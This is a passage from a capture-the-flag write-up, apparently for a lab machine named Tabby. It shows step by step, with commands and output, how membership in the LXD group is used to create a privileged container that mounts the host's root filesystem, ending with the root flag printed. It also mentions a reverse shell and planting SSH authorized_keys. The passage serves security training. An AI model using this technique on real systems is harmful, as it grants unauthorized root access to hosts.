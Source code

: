 When I deploy file `lxd.tar.xz` while using reverse shell, I got error `No such file or directory` for file `lxd.tar.xz`. Let's add `authorized_keys` to server and using ssh with private key.

Deploy image again and it work.

```
ash@tabby:/tmp$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: 344c9cfe47fc1c5ff64a553087b3e11649aa40dd47dc074b56488a700479f3bf
ash@tabby:/tmp$ lxc image list
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+-----------------------------+
| alpine | 344c9cfe47fc | no     | Alpinelinux 3.8 x86_64 (20210408_0521) | x86_64       | CONTAINER | 1.92MB | Apr 8, 2021 at 5:49am (UTC) |
+--------+--------------+--------+----------------------------------------+--------------+-----------+--------+-----------------------------+
```

Get error while create comtainer.

```
ash@tabby:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc
Error: No storage pool found. Please create a new storage pool
```

Search error with google and I have to init before create container

```
ash@tabby:/tmp$ lxd init
<snip>
```

Create container again and it work

```
ash@tabby:/tmp$ lxc init alpine privesc -c security.privileged=true
Creating privesc
ash@tabby:/tmp$ lxc list                  
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+
```

Mount container `privesc` with path `/mnt/root` to source from Tabby `/`. Go to check `/mnt/root` and I got file root.txt 

```
ash@tabby:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
ash@tabby:/tmp$ lxc start privesc
ash@tabby:/tmp$ lxc exec privesc /bin/sh
~ # cd /mnt/root
/mnt/root # ls
bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        swap.img    tmp         var
boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         sys         usr
/mnt/root # cat root/root.txt
ba2c48cc39dd91fdd4bc355dfa033265
```